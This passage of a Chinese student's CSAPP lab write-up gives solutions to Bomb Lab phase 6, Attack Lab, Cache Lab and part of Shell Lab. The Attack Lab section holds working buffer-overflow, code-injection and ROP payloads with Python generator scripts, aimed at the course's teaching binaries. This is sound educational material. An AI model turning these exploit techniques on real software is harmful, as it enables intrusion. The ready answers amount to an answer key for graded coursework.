      0x00000000004011df <+235>:   mov    0x8(%rbx),%rax
      0x00000000004011e3 <+239>:   mov    (%rax),%eax
      0x00000000004011e5 <+241>:   cmp    %eax,(%rbx)
      0x00000000004011e7 <+243>:   jge    0x4011ee <phase_6+250>
      0x00000000004011e9 <+245>:   callq  0x40143a <explode_bomb>
      0x00000000004011ee <+250>:   mov    0x8(%rbx),%rbx
      0x00000000004011f2 <+254>:   sub    $0x1,%ebp
      0x00000000004011f5 <+257>:   jne    0x4011df <phase_6+235>
      0x00000000004011f7 <+259>:   add    $0x50,%rsp
      0x00000000004011fb <+263>:   pop    %rbx
      0x00000000004011fc <+264>:   pop    %rbp
      0x00000000004011fd <+265>:   pop    %r12
      0x00000000004011ff <+267>:   pop    %r13
      0x0000000000401201 <+269>:   pop    %r14
      0x0000000000401203 <+271>:   retq
   End of assembler dump.
   ```

   对应的 C 语言形式：

   ```c
   void p6(int num[]) {
       // i = r12d
       for(int i = 0; i < 6; i ++) {
           if(num[i] > 6)bomb();
           
           for(int j = i + 1; j <= 5; j ++) {
               if(num[j]==num[i])bomb();
           }
       }
       
   	for(int i = 0; i < 6; i ++) {
           num[i] = 7 - num[i];
       }
       
       // i -- rsi -- 163
       // 过程2
       long ll[6];	// ll - rbx
       for(int i = 0; i < 6; i ++) {
           int rdx = 0x6032d0;
           if(num[i] > 1) {
               int j = 1;	// j -- eax
               do {
                   rdx = rdx + 0x10;	// 处理过
                   j++;
               }while(j != num[i]);
           } 
           ll[i++] = rdx;
       }
       // 过程3
       int rbx = ll[0], rcx = rbx;
       for(int i = 1; i < 5; i++) {
           // 201
           *(rcx + 8) = ll[i];
           rcx = ll[i];
       }
       
       long rbx = (long)(&ll[0]);
       
       for(int i = 1; i < 5; i++) {
           int rax = *(int*)(rbx+8);
           int eax = *(int *)(long*)(rax)
           if(*(rbx) >= eax) {
               rbx = *(long*)(rbx+8);
           } else bomb();
       }
       
   }
   ```

   重要数组信息：

   ```
   (gdb) x/16xg 0x6032d0
   0x6032d0 <node1>:       0x000000010000014c      0x00000000006032e0
   0x6032e0 <node2>:       0x00000002000000a8      0x00000000006032f0
   0x6032f0 <node3>:       0x000000030000039c      0x0000000000603300
   0x603300 <node4>:       0x00000004000002b3      0x0000000000603310
   0x603310 <node5>:       0x00000005000001dd      0x0000000000603320
   0x603320 <node6>:       0x00000006000001bb      0x0000000000000000
   ```

   大致意思就是：

   7 - nums[i] 后的数组假如为 1 2 3 4 5 6 分别对应数组 [0x6032d0, 0x6032e0, 0x6032f0, 0x603300, 0x603310, 0x603320] 的索引（从1开始计算），这些地址分别对应的值为 [0x14c, 0xa8, 0x39c, 0x2b3, 0x1dd, 0x1bb]，由于最后需要要求对数值进行降序排列，对应的 ll 数组值为 [0x6032f0, 0x603300, 0x603310, 0x603320, 0x6032d0, 0x6032e0] 其对应的索引为 [3 4 5 6 1 2]，因此答案为 [4 3 2 1 6 5]


### 3. Attack Lab

🔵Pre：

* 如何将特定汇编代码转为二进制：

  比如向 `bang.s` 中写入一段汇编代码：

  ```assembly
  mov $0xa, %eax
  ret
  ```

  使用 gcc 对其进行编译：

  ```sh
  gcc -c bang.s
  ```

  编译后得到 `bang.o` 的文件，使用 `objdump` 进行反汇编：

  ```sh
  $ objdump -d bang.o
  bang.o:     file format elf64-x86-64
  Disassembly of section .text:
  
  0000000000000000 <.text>:
     0:   b8 0a 00 00 00          mov    $0xa,%eax
     5:   c3                  retq
  ```

  即可得到对应的 bytecode。

* 由于是离线实验，因此运行时候需要添加 `-q` 参数

  ```sh
  ./ctarget -q
  ./rtarget -q
  ```

  在 GDB 中调试需要设置：

  ```sh
  (gdb) set args -q
  (gdb) set disassemble-next-line on
  ```

* 由于输入的字符都是 ASCII 码，其中有些字符不能用键盘表示出来，因此需要借助工具 `hex2raw` 进行实现：

  ```sh
  ./hex2raw < touch1.txt | ./ctarget -q
  ```

  或者使用 python 输出二进制文件后进行解答：

  ```sh
  ./ctarget -q -i touch1.txt
  ```

* 学会使用 python 等工具输出二进制文件：

  ```py
  import struct
  
  payloads = [0xaa]
  with open('touch1.txt', 'wb') as f:
      for x in payloads:
          f.write(struct.pack('B', x))
  
  print('Done')
  ```

  

🔵Phase 1

根据[作业提示](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中的信息可以知道，这个阶段只需要进行缓冲区溢出覆写上一个函数的地址。

由于需要调用 `touch1()` 函数，查看 touch1 函数：

```assembly
(gdb) disassemble touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

可以知道 touch1 的入口地址为：0x4017c0

由于需要从 `getbuf` 函数中 ret 到 touch1 函数，因此查看函数：

```assembly
(gdb) disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

由此可以知道 getbuf 分配了 40 字节 (0x28) 的缓冲区，则 payload 是在后面 40 字节之后。

运行程序在 0x04017b4 处打断点，输入`aaaaa` 测试查看栈情况。


可以看到正常流程经过 ret 会返回到 0x401976 地址处，要想调用 touch1 函数，经过缓冲区溢出后需要将栈中对应的地址改成 touch1 的入口地址  0x4017c0，因此得到 payload：

```
0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0x01 0xc0 0x17 0x40
```

其中前 40 字节数据不进行限制，最后三个字节必须是 `c0 17 40` （小端序存储）。

可以使用脚本生成对应的 payload 进行输入：

```py
#!python
import struct

payloads = [0x61] * 40;
payloads = payloads + [0xc0, 0x17, 0x40, 0x00]
with open('touch1.txt', 'wb') as f:
    for x in payloads:
        f.write(struct.pack('B', x))

print('Done')
```

最终将生成的 touch1.txt 输入：

```sh
$ ./ctarget -q -i touch1.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 C0 17 40 00
```

成功 Pass.

🔵 Phase 2

首先查看 touch2 函数入口地址：

```assembly
(gdb) disassemble touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   # ....
End of assembler dump.
```

根据 Phase 1 阶段首先写 payload 跳转到 touch2 函数入口，由于需要对比 cookie 的值 0x59b997fa（即Cookie.txt 中的数字），因此需要传入的参数与 cookie 相同，即需要改变 edi 寄存器中的值。

思路：

1. 由于未开启栈随机化和未禁止栈代码可执行，因此首先 ret 到缓存区开头 0x5561dc78

2. 编写缓冲区的代码为：

   ```assembly
   mov $0x59b997fa, %edi
   ret
   ```

3. 使用 gcc 和 objdump 生成对应的字节码

   ```sh
   $ objdump -d bang.o
   
   bang.o:     file format elf64-x86-64
   Disassembly of section .text:
   
   0000000000000000 <.text>:
      0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
      5:   c3                  retq
   ```

4. 由于缓冲区代码又一个 ret，因此下一跳就应该是 touch2 函数的入口，因此在栈地址之后添加 touch2 的地址 0x4017ec

5. 对应的 payload 为：

   ```
   BF FA 97 B9 59 C3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
   ```

   脚本为：

   ```py
   import struct
   
   payloads = [0xbf, 0xfa, 0x97, 0xb9, 0x59, 0xc3]
   payloads = payloads + [0x61] * 34;
   payloads = payloads + [0x78, 0xdc, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, 0xec, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00]
   with open('touch2.txt', 'wb') as f:
       for x in payloads:
           f.write(struct.pack('B', x))
   
   print('Done')
   ```

   其中由于地址为 8 字节，因此需要在之后进行补 0 操作。

6. 最终 pass

   ```sh
   $ ./ctarget -q -i touch2.txt
   Cookie: 0x59b997fa
   Touch2!: You called touch2(0x59b997fa)
   Valid solution for level 2 with target ctarget
   PASS: Would have posted the following:
           user id bovik
           course  15213-f15
           lab     attacklab
           result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 C3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
   ```

🔵Phase 3

首先查看 `touch3` 函数的入口地址为 0x4018fa：

```assembly
(gdb) disassemble touch3
Dump of assembler code for function touch3:
	0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   # ....
End of assembler dump.
```

感觉思路大致和 phase 2一致，由于需要 cookie 的 ascii 表示形式，所以保证输入到 touch3 函数中的字符串前 8 位为 59b997fa。

思路：

1. 由于未开启栈随机化和未禁止栈代码可执行，因此首先 ret 到缓存区开头 0x5561dc78

2. 由于此次 touch3 保存数据类型为字符串：

   字符串 "59b997fa" 对应的二进制形式为：

   ```
   0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61
   ```

3. 分析 touch3 函数，touch3 的 sval 参数 char* 类型的指针存放在 rdi 中，因此在此之前应该将字符串 "59b997fa" 的地址存放在 rdi 中。

4. 首先选择字符串 "59b997fa" 存放的位置，就选择存放在其他位置，我这里选择 0x604800 处：

   ```assembly
   mov $0x604800, %rdi
   movl $0x39623935, (%rdi)
   movl $0x61663739, 4(%rdi)
   retq
   ```

5. 使用 gcc 和 objdump 生成对应的字节码

   ```sh
   (rs) yl@amax:~/repo/33/11/csapp/code/chapt3/target1$ objdump -d bang.o
   bang.o:     file format elf64-x86-64
   Disassembly of section .text:
   
   0000000000000000 <.text>:
      0:   48 c7 c7 00 48 60 00    mov    $0x604800,%rdi
      7:   c7 07 35 39 62 39       movl   $0x39623935,(%rdi)
      d:   c7 47 04 39 37 66 61    movl   $0x61663739,0x4(%rdi)
     14:   c3                      retq
   ```

6. 对应 payload 为：

   ```
   48 C7 C7 00 48 60 00 C7 07 35 39 62 39 C7 47 04 39 37 66 61 C3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00
   ```

   脚本为：

   ```py
   #!python
   import struct
   
   #payloads = [0x48, 0xbf, 0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, 0xc3]
   payloads =[0x48, 0xc7, 0xc7, 0x00, 0x48, 0x60, 0x00, 0xc7, 0x07, 0x35, 0x39, 0x62, 0x39, 0xc7, 0x47, 0x04, 0x39, 0x37, 0x66, 0x61, 0xc3]
   payloads = payloads + [0x61] * (40-len(payloads));
   payloads = payloads + [0x78, 0xdc, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, 0xfa, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00]
   with open('touch3.txt', 'wb') as f:
           for x in payloads:
                   f.write(struct.pack('B', x))
   
   print('Done')
   ```

7. 最终 pass

   ```sh
   $ ./ctarget -q -i touch3.txt
   Cookie: 0x59b997fa
   Touch3!: You called touch3("59b997fa")
   Valid solution for level 3 with target ctarget
   PASS: Would have posted the following:
           user id bovik
           course  15213-f15
           lab     attacklab
           result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 00 48 60 00 C7 07 35 39 62 39 C7 47 04 39 37 66 61 C3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00
   ```


🔵Phase 4

由于开启了栈随机化以及栈代码不可执行。

思路：向缓冲区写入 cookie 数值，通过 pop 到对应寄存器完成赋值

步骤：

1. 首先找到 `popq` 的指令片段，有两个地方：

   

   随便选取一处地址，这里选取 0x4019ab，确定第一处跳转的地址

2. 由于 `58` 是 pop 到 rax 寄存器中，还需要存储到 rdi 寄存器中，因此还需要 `movq rax, rdi` 

   

   得到下一个 gadget 地址 0x4019c5

3. 由于 popq 指令也是从栈中进行取数据，因此还应该向缓冲区输入 cookie 的值 0x59b997fa

4. 拼接得到 payload：

   ```
   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
   ```

   编写脚本生成二进制文件：

   ```py
   import struct
   
   payloads = [0x61] * 40;
   payloads = payloads + [0xab, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0xfa, 0x97, 0xb9, 0x59, 0x00, 0x00, 0x00, 0x00, 0xc5, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0xec, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00]
   with open('touch4.txt', 'wb') as f:
       for x in payloads:
           f.write(struct.pack('B', x))
   
   print('Done')
   ```

5. 最终 pass

   ```sh
   $ ./rtarget -q -i touch4.txt
   Cookie: 0x59b997fa
   Touch2!: You called touch2(0x59b997fa)
   Valid solution for level 2 with target rtarget
   PASS: Would have posted the following:
           user id bovik
           course  15213-f15
           lab     attacklab
           result  1:PASS:0xffffffff:rtarget:2:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
   ```

   

🔵Phase 5

字符串 "59b997fa" 对应的二进制形式为：

```
0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61
```

```assembly
movq %rsp, %rax
popq %rdi
movq %rax, %rdi
```

思路：关键就是如何找到字符串对应的地址传给 rdi，以及梳理已给条件。

已给条件：

1. `movq` 指令：
   * movq %rax, %rdi     0x4019a2
   * movq %rsp, %rax     0x401a06
2. `movl` 指令：
   * movl %eax, %edi     0x4019a3
   * movl %eax, %edx     0x4019dd
   * movl %esp, %eax
   * movl %ecx, %esi     0x401a13
   * movl %edx, %ecx     0x401a34
3. `popq` 指令：
   * popq %rax  0x4019ab
4. `lea` 指令
   * lea (%rdi,%rsi,1),%rax     0x4019d6

存在一个问题，由于需要传入的是字符串指针，因此使用语句 `movq %rsp, %rax` 然后 ret：如果位置在 %rsp 所指位置，那么 ret 可能返回到一个无效地址，因此证明字符串数据必须在所有 gadget 地址之后。并且 farm 中提供了加法运算，因此需要让我们最终计算字符串数据的地址。


因此大致思路如上，计算得到 length 部分为 0x20。

因此 payloads 为：

```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

编写脚本：

```python
import struct

payloads = [0x61] * 40;
payloads = payloads + [
        0xab, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x20, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0xdd, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x34, 0x1a, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x13, 0x1a, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x06, 0x1a, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0xa2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0xd6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0xa2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0xfa, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, 0x00]

with open('touch5.txt', 'wb') as f:
    for x in payloads:
        f.write(struct.pack('B', x))

print('Done')
```

最终 pass：

```sh
$ ./rtarget -q -i touch5.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### 4. Cache lab

lab 分为两个小实验：

1. 模拟实现高速缓存（200-300行代码）cache simulator

   其实就是对课堂知识的巩固，使用代码的形式来进一步了解缓存的工作原理。

   > 可以进一步了解 n 路组相联映射，以及 LRU 的使用场景。

   CSAPP 将高速缓存这一节讲得好的原因就是有 set、line、block 的概念，通过 CPU 发送的地址将其解析为 tag、set index 以及 block offset，根据解析后的数据定位到缓存的位置。如果缓存中每个 set 有多个 line 并且 line 都被占用的时候，就需要使用 LRU 算法淘汰掉最久未访问过的 line。

   Cache 是由一个个 Block 构成，因此定义：

   ```c
   typedef struct {
       bool v;			// valid flag
       int tag;		// tag
       bool* data;		// data
       int version;	// For LRU evict.
   } Block;
   
   typedef Block* Cache;
   ```

   其中前三个属性是 Block 中必要的属性，第四个属性 version 用于标记当前 set 中的更新时间，越大表示数据越新，用于 LRU 算法来淘汰旧的 Block。

   解析地址：

   ```c
   long addr = op[i].addr;
   int set = (addr >> arg.b) & ((1 << arg.s) - 1);
   int tag = addr >> (arg.b + arg.s);
   ```

   根据题目要求的 4 个操作，L 表示加载数据，I 表示加载指令，S 表示存储数据，M 表示修改数据。

   在对 CPU 发送来的地址进行解析后，就可以找到对应的 set。由于使用 LRU 淘汰算法，因此需要对 set 中所有的 line 进行版本号比较，淘汰最低的版本号，并且对操作的 block 赋值最新的版本号。

   如果在这个 set 中对比有效位和 tag 都一致，就表示 hit 缓存命中。

   ```c
   // lines index range: [set * E, (set+1)*E)
   // Firstly, replace the block which has the most small version number in this set
   // Set the biggest version number + 1 as the pertinent block's version number.
   int minv = 0x7fffffff, maxv = -1, iminv = 0;;
   bool found = false;
   int found_idx = 0;
   for(int j = set * arg.e; j < (set+1)*arg.e; j++) {
       // minv = min(minv, cache[j].v);
       if (cache[j].version < minv) {
           iminv = j;
           minv = cache[j].version;
       }
       maxv = max(maxv, cache[j].version);
       if(cache[j].version && tag == cache[j].tag) {
           found = true;
           found_idx = j;
           hit++;
       }
   }
   ```

   由于 M 操作，最终还需要写回/直写数据到内存，因此还会 hit 一次；对于其他操作，如果 block 已存在其他数据的情况下未命中，会对 block 数据进行清除 evict，因此对于操作的判断逻辑为：

   ```c
   int op_idx = found ? found_idx: iminv;
   // printf("%c %llx,%d ", op[i].t, op[i].addr, op[i].size);
   if(op[i].t == 'M')hit++;
   if (!found) {
       miss++;
       if (cache[iminv].v) evict++;
   }
   ```

   最终更新操作的 block 的属性（有效位，tag 以及版本号）：

   ```c
   cache[op_idx].v = true;
   cache[op_idx].tag = tag;
   cache[op_idx].version = maxv + 1;
   ```

   

2. 优化矩阵转置函数，来降低缓存未命中率 （Blocking 技术）

   参考：[CSAPP:Lab4-Cache Lab](https://zhuanlan.zhihu.com/p/142942823)

   有题目设置环境 $s = 5, E = 1, b = 5$，可以知道每个 block 的大小是 32 字节，可以存储 8 个 int 值。

   当遍历矩阵第一个元素的时候，CPU 会将连续 8 个 int 值存入到缓存中：

   

   并且由于访问矩阵 A 步长为 1，因此不用担心 A 矩阵的空间局部性。

   在 $32\times 32$ 大小的矩阵情况下，如果要将 A 矩阵的第一行 32 个元素复制到 B 矩阵中第一列中，那么在 B 矩阵中每次只写入第一列元素，并且将每一行对应 8 个元素都存入缓存。当访问到 B[8\][0\] 的时候缓存 conflict miss，就会覆盖访问 B[0\][0] 时候写入缓存的数据；依次类推，每次只对缓存中第一个字节的位置进行修改，从而造成对 B 矩阵的时间局部性较低。

   当对 A 矩阵每一行前 8 个元素进行转置操作处理时候，A 矩阵占用缓存大小为 32KB，而 B 矩阵占用缓存大小为 32*8 KB，而 32\*8 KB 大小中只有 1/8 的部分被利用。**因此影响 cache 效率的关键就是减少对 B 矩阵写入 miss。**

   

   因此对矩阵 A 和 B 进行 $8\times 8$ 大小的分块（Blocking），每次只对子矩阵进行转置。当对 A 矩阵第 2 行进行转置操作时候，就可以 hit 缓存中已保存的 B 的子矩阵的数据。因此编写代码：

   ```c
   if (M == 32) {
       for(int i = 0; i < M; i += 8) {
           for(int j = 0; j < N; j += 8) {
               for(int ii = i; ii < i + 8; ii++) {
                   for(int jj = j; jj < j + 8; jj++)
                       B[jj][ii] = A[ii][jj];
               }
           }
       }
   }
   ```

   测试结果为：

   ```sh
   $ ./test-trans -M 32 -N 32
   
   Function 0 (2 total)
   Step 1: Validating and generating memory traces
   Step 2: Evaluating performance (s=5, E=1, b=5)
   func 0 (Transpose submission): hits:1710, misses:343, evictions:311
   
   Function 1 (2 total)
   Step 1: Validating and generating memory traces
   Step 2: Evaluating performance (s=5, E=1, b=5)
   func 1 (Simple row-wise scan transpose): hits:870, misses:1183, evictions:1151
   
   Summary for official submission (func 0): correctness=1 misses=343
   
   TEST_TRANS_RESULTS=1:343
   ```

   miss 次数为 343 离满分要求 300 还有一段。

   通过观察可以发现，当对 A[0\][0\] 移动到 B[0\][0\] 的时候会发现，**两者映射的都是同一片缓存区**，同理 A[1\][1] 和 B[1\][1]。当读取 A[0\][0] 时候对缓存修改，写入 B[0\][0] 的时候会将原先的缓存区有进行修改，造成多次 miss，即**抖动**现象。因此可以选择使用临时变量将 A 子矩阵 8 个元素存储起来。

   ```c
   int t1, t2, t3, t4, t5, t6, t7, t8;
   if (M == 32) {
       for(int i = 0; i < M; i += 8) {
           for(int j = 0; j < N; j += 8) {
               for(int k = i; k < i + 8; k++) {
                   t1 = A[k][j];
                   t2 = A[k][j+1];
                   t3 = A[k][j+2];
                   t4 = A[k][j+3];
                   t5 = A[k][j+4];
                   t6 = A[k][j+5];
                   t7 = A[k][j+6];
                   t8 = A[k][j+7];
   
                   B[j][k] = t1;
                   B[j+1][k] = t2;
                   B[j+2][k] = t3;
                   B[j+3][k] = t4;
                   B[j+4][k] = t5;
                   B[j+5][k] = t6;
                   B[j+6][k] = t7;
                   B[j+7][k] = t8;
               }
           }
       }
   }
   ```

   最终结果：

   ```sh
   $ ./test-trans -M 32 -N 32
   
   Function 0 (2 total)
   Step 1: Validating and generating memory traces
   Step 2: Evaluating performance (s=5, E=1, b=5)
   func 0 (Transpose submission): hits:1766, misses:287, evictions:255
   
   Function 1 (2 total)
   Step 1: Validating and generating memory traces
   Step 2: Evaluating performance (s=5, E=1, b=5)
   func 1 (Simple row-wise scan transpose): hits:870, misses:1183, evictions:1151
   
   Summary for official submission (func 0): correctness=1 misses=287
   
   TEST_TRANS_RESULTS=1:287
   ```

   ---

   对于 $64\times 64$ 的矩阵乘法，根据 $32 \times 32$ 的做法的思路：

   

   ```c
   if (M == 64) {
       for(int i = 0; i < M; i += 8) {
           for(int j = 0; j < N; j += 4) {
               for(int k = i; k < i + 8; k++) {
                   t1 = A[k][j];
                   t2 = A[k][j+1];
                   t3 = A[k][j+2];
                   t4 = A[k][j+3];
   
                   B[j][k] = t1;
                   B[j+1][k] = t2;
                   B[j+2][k] = t3;
                   B[j+3][k] = t4;
               }
           }
       }
   
   }
   ```

   没有达到最好的做法：

   ```sh
   $ ./test-trans -M 64 -N 64
   
   Function 0 (2 total)
   Step 1: Validating and generating memory traces
   Step 2: Evaluating performance (s=5, E=1, b=5)
   func 0 (Transpose submission): hits:6546, misses:1651, evictions:1619
   
   Function 1 (2 total)
   Step 1: Validating and generating memory traces
   Step 2: Evaluating performance (s=5, E=1, b=5)
   func 1 (Simple row-wise scan transpose): hits:3474, misses:4723, evictions:4691
   
   Summary for official submission (func 0): correctness=1 misses=1651
   
   TEST_TRANS_RESULTS=1:1651
   ```

   ---

   第三个要求比较宽松，只需要简单分块即可：

   ```c
   if (M ==  61) {
       int bsize = 16;
       for(int i = 0; i < N; i += bsize) {
           for(int j = 0; j < M; j += bsize) {
               for(int k = i; k < i + bsize && k < N; k++) {
                   for(int l = j; l < j + bsize && l < M; l++)
                       B[l][k] = A[k][l];
               }
           }
       }
   }
   ```

   最终成绩：

   ```sh
   $ ./driver.py
   Part A: Testing cache simulator
   Running ./test-csim
   Your simulator     Reference simulator
   Points (s,E,b)    Hits  Misses  Evicts    Hits  Misses  Evicts
   3 (1,1,1)       9       8       6       9       8       6  traces/yi2.trace
   3 (4,2,4)       4       5       2       4       5       2  traces/yi.trace
   3 (2,1,4)       2       3       1       2       3       1  traces/dave.trace
   3 (2,1,3)     167      71      67     167      71      67  traces/trans.trace
   3 (2,2,3)     201      37      29     201      37      29  traces/trans.trace
   3 (2,4,3)     212      26      10     212      26      10  traces/trans.trace
   3 (5,1,5)     231       7       0     231       7       0  traces/trans.trace
   6 (5,1,5)  265189   21775   21743  265189   21775   21743  traces/long.trace
   27
   
   
   Part B: Testing transpose function
   Running ./test-trans -M 32 -N 32
   Running ./test-trans -M 64 -N 64
   Running ./test-trans -M 61 -N 67
   
   Cache Lab summary:
   Points   Max pts      Misses
   Csim correctness          27.0        27
   Trans perf 32x32           8.0         8         287
   Trans perf 64x64           4.0         8        1651
   Trans perf 61x67          10.0        10        1992
   Total points    49.0        53
   ```

   由上述了解：分块技术受矩阵大小和缓存的配置信息（block 数据大小，line 的数量以及cache大小）都有关系，不好掌控最好的优化方法。

   

### 5. Shell lab

本节实验的目的是熟悉程序控制和信号处理，写一个简单的支持 job 控制 的 Unix Shell。

这个实验的重点：

1. 熟悉在 Linux 下异常信号处理的工作原理
2. 熟悉在 C 语言下信号捕获和屏蔽的实现细节

难点：

1. 需要熟悉 C 语言各种信号捕获屏蔽函数和各种配置参数
2. 三种信号的触发条件：
   * `SIGCHLD`：子进程状态发生变化（死亡，暂停，恢复）就会触发信号。
   * `SIGTSTP`：发生键盘事件 `Ctrl-Z`，默认事件是程序暂停。
   * `SIGINT`：发生键盘事件 `Ctrl-C`，默认事件是程序停止。
3. 回收(reap)子程序，即使用 `wait` 或者 `waitpid` 函数：
   * `wait(&state)` 函数相当于 `waitpid(-1, &state, option)`，其返回值大于 0 为进程 ID
   * 用户可以根据 state 的值查看程序的状态，使用宏函数 `WIFEXITED`, `WIFSTOPPED`, `WIFSIGNALED` 来查看是否退出、停止以及收到信号。
   * option 配置：
     * `NULL` 表示只有子程序发生死亡事件的时候才会返回，否则会一直阻塞。
     * `WNOHANG` 表示不阻塞程序的运行，如果没有能获取到状态的程序（即发生状态变化的子程序）则直接返回为 0.
     * `WUNTRACED` 表示如果程序状态出现暂停也可以返回。
4. 面临的并发问题：
   * 子进程可能会在父进程添加到其任务队列之前结束，如果子进程先结束就会触发父程序的回收子进程流程，就会出现删除不存在的进程的情况。
   * 由于 Linux 中信号隐式阻塞机制，父进程发送信号该子程序后，子程序发生状态变化后返回 `SIGCHLD` 信号给父进程，如果此时父进程已经有 `SIGCHLD` 信号，就会导致子进程的信号被抛弃。
   * 对于共享资源的访问需要保证操作的原子性

实验中需要完成 7 个函数的编写：

```c
void eval(char *cmdline);
int builtin_cmd(char **argv);
void do_bgfg(char **argv);
void waitfg(pid_t pid);

void sigchld_handler(int sig);
